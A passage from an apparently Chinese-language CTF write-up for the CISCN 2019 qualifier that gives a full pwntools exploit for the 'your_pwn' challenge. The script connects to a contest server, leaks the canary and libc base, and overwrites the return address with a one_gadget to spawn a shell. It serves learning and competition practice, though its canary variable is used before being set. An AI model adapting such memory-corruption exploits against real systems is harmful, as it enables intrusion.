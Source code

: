 ```yaml
---
title: CISCN_2019_Qual
date: 2019-04-22 10:25:30
tags:
---
```

PWN部分 除了VM

# Sart
* 一共6题pwn题 只解出5题
* PWN题总体来说除了我不会做的难度不大.从分数看来相比去年各个战队对pwn题的重视程度普遍提高
* 无奈从没pwn过VM最后一题挣扎了半天也没什么效果等其他队伍wp出来了再好好学习一波
# your_pwn
热身签到题,随便看,随便改.
无奈我太慌张了脑子一热居然上手就泄露canary...
泄漏完了就在想我是谁我在干什么..
正确的做法是泄露libc 将返回地址改成one就可以了...
不想改exp直接放我那个傻逼exp把..
```python
from pwn import *
#p=process('./pwn')
p=remote("39.106.224.151",57856)
name="n132"
p.sendlineafter("name:",name)
for x in range(7):
	p.sendlineafter("index\n",str(0x149+6-x))
	p.readuntil("(hex) ")
	re=int("0x"+p.readline()[:-1],16)
	re=re&0xff
	canary=re+canary*0x100
	
	p.sendlineafter("value\n",str(re))

base=0

for x in range(6):
	p.sendlineafter("index\n",str(0x278+5-x))
	p.readuntil("(hex) ")
	re=int("0x"+p.readline()[:-1],16)
	re=re&0xff
	base=re+base*0x100
	p.sendlineafter("value\n",str(re))
base=base-(0x7ffff7a2d830-0x00007ffff7a0d000)
log.info(hex(base))
tmp=0
one=0x45216+base
log.info(hex(one))
l=[0xff0000000000,0xff00000000,0xff000000,0xff0000,0xff00,0xff]
for x in range(6):
	p.sendlineafter("index\n",str(0x278+5-x))
	p.readuntil("(hex) ")
	re=int("0x"+p.readline()[:-1],16)
	re=re&0xff
	base=re+base*0x100
	p.sendlineafter("value\n",str((one&l[x])>>(8*(5-x))))
context.log_level='debug'
for x in range(22):
	p.sendlineafter("index\n",str(0))
	p.sendlineafter("value\n",str(0))
p.sendlineafter("es/no)? ","no")
```